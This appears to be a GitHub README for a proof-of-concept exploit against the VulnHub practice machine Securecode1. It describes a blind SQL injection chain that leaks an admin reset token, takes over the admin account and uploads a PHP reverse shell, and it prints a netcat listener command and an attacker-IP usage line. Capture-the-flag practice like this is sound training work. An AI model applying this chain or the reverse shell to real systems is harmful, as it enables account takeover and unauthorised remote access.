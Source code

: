 # securecode1
PoC for VulnHub machine Securecode1

start a NetCat listener with:
 nc -nlvp <IP> <port>

usage: python3 poc.py -t <target> -p <password to set> -i <attacker IP> -pt <attacker port>
  
This script leverages boolean based blind SQL Injection to enumerate the adminstrative user on the "HackShop" web application on the VulnHub machine Securecode1. It then requests a password reset token for the adminstrative user. 
  
The blind SQLi is then used again to enumerate the token. The token is then passed to reset the administrative user account's password with the password passed with the -p flag.
  
The script then logs in and pulls the first flag.
 
A php reverse shell is then uploaded and executed connecting to the IP and port suppled by the -i and -pt options.
  

